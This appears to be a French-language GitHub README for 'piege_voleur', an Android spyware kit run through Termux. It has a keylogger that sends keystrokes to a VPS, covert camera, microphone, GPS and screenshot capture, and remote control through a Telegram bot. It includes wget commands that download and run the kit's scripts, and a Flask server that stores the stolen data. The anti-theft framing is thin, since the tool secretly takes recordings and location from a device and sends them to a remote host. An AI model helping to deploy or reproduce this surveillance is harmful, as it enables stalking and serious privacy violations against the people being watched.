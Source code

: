# piege_voleur

✅ Keylogger (enregistre les frappes clavier et les envoie au VPS)

✅ Capture vidéo (caméra avant/arrière)

✅ Microphone (enregistre l'audio)

✅ GPS (géolocalisation)

✅ Capture d'écran (screenshot)

✅ Bot Telegram (contrôle l'appareil via Telegram)


```
sudo apt update && sudo apt install python3-pip -y
pip3 install flask telebot
python3 server.py
```

## installation sur termux

```bash
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/install_termux.sh -O install_termux.sh
bash install_termux.sh

wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/keylogger_termux.sh -O keylogger_termux.sh
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/record_video.sh -O record_video.sh
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/record_audio.sh -O record_audio.sh
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/gps_tracker.sh -O gps_tracker.sh
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/screenshot.sh -O screenshot.sh
wget https://raw.githubusercontent.com/trh4ckn0n/piege_voleur/main/telegram_listener.sh -O telegram_listener.sh

chmod +x *.sh
```

```bash
bash telegram_listener.sh &
```


📌 4️⃣ Commandes Telegram Disponibles

Depuis Telegram, envoie :

📌 keylogger → Active le keylogger

📌 video → Enregistre 10 sec de vidéo (caméra arrière)

📌 audio → Enregistre 10 sec de son

📌 gps → Envoie la position GPS

📌 screenshot → Capture l’écran


---

🎯 Résumé

✅ VPS (Flask) : écoute et stocke les données

✅ Android (Termux) : capture vidéo, micro, clavier, GPS, écran

✅ Bot Telegram : contrôle à distance
